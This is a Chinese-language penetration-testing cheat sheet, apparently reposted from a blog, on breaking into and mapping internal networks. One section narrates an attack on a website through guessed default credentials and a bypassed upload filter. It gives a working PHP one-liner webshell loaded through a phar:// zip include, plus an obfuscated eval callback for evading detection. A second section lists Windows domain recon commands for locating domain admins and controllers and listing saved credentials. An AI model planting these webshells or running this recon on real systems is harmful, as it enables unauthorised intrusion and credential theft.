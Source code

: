 # 内网渗透备忘录

转自：https://tom0li.github.io/%E5%86%85%E7%BD%91%E5%A4%87%E5%BF%98%E5%BD%95/  自身也持续更新

## webshell

来一段绕口令：

```
测试主站，搜wooyun历史洞未发现历史洞，github,svn,目录扫描未发现敏感信息,无域传送，端口只开了80端口，找到后台地址，想爆破后台，验证码后台验证，一次性，用ocr识别，找账号，通过google，baidu，bing等搜索，相关邮箱，域名等加常用密码组成字典，发现用户手册，找账号，发现未打码信息，和默认密码，试下登陆成功，找后台，上传有dog，用含有一句话的txt文件<?php eval($_POST['cmd']);?>，打包为zip，php文件<?php include 'phar://1.zip/1.txt';?>即可，c刀被拦，修改config.ini文件，php_make @eval(call_user_func_array(base64_decode,array($_POST[action])));用回调函数，第一个为函数名，二个为传的参数.
```

## 前期收集

```
query user || qwinsta 查看当前在线用户
net user  查看本机用户
net user /domain 查看域用户
net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
net view /domain 查看有几个域
net view \\dc   查看dc域内共享文件
net group /domain 查看域里面的组
net group "domain admins" /domain 查看域管
net localgroup administrators /domain   /这个也是查域管，是升级为域控时，本地账户也成为域管
net group "domain controllers" /domain 域控
net time /domain 
net config workstation   当前登录域 - 计算机名 - 用户名
net use \\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
ipconfig
systeminfo
tasklist /svc
tasklist /S ip /U domain\username /P /V 查看远程计算机tasklist
net localgroup administrators && whoami 查看当前是不是属于管理组
netstat -ano
nltest /dclist:xx  查看域控
dsquery
whoami /all 查看Mandatory Label uac级别和sid号
net sessoin 查看远程连接session(需要管理权限)
net share     共享目录
cmdkey /l   查看保存登陆凭证
echo %logonserver%  查看登陆域
spn –l administrator spn记录
set  环境变量
dsquery server - 查找目录中的 AD DC/LDS 实例
dsquery user - 查找目录中的用户
dsquery computer 查询所有计算机名称windows 2003
dir /s *.exe 查找指定目录下及子目录下没隐藏文件
arp -a
```
